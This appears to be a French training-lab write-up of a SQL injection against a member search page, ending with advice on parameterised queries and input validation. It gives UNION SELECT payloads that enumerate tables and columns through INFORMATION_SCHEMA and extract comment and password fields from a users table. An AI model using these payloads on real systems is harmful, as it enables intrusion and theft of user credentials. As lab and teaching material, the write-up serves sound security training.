 # Exploit 01 - SQL Injection for search member page

## Objectif

L'objectif de cet exploit est de montrer comment une injection SQL peut être utilisée pour extraire des informations sensibles d'une base de données. Dans cet exemple, nous allons cibler une page de recherche membre vulnérable à l'injection SQL.

## Exemple d'Exploitation

### Extraction des Noms de Tables

```sql 
1 UNION ALL SELECT 1, GROUP_CONCAT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = DATABASE();
```

### Extraction des Noms de Colonnes

```sql 
1 UNION ALL SELECT 1, GROUP_CONCAT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = DATABASE();
```

### Extraction de Données Spécifiques

```sql 
1 UNION ALL SELECT 1, GROUP_CONCAT(commentaire) FROM users;
1 UNION ALL SELECT 1, GROUP_CONCAT(countersign) FROM users;
```

### Hash de Mot de Passe
```bash
python3 get_flag.py
```

## Protection contre ce genre de cas

- **Utiliser des requêtes paramétrées** : Plutôt que de concaténer directement les entrées utilisateur dans les requêtes SQL, utilisez des requêtes paramétrées qui séparent clairement les données des instructions SQL.
  
- **Évaluer les entrées utilisateur** : Avant de les utiliser dans une requête SQL, évaluez toujours les entrées utilisateur pour s'assurer qu'elles correspondent au type attendu (par exemple, numérique, texte).
  
- **Mettre à jour régulièrement les logiciels** : Assurez-vous que tous les logiciels et bibliothèques utilisés dans le développement sont régulièrement mis à jour pour corriger les vulnérabilités connues.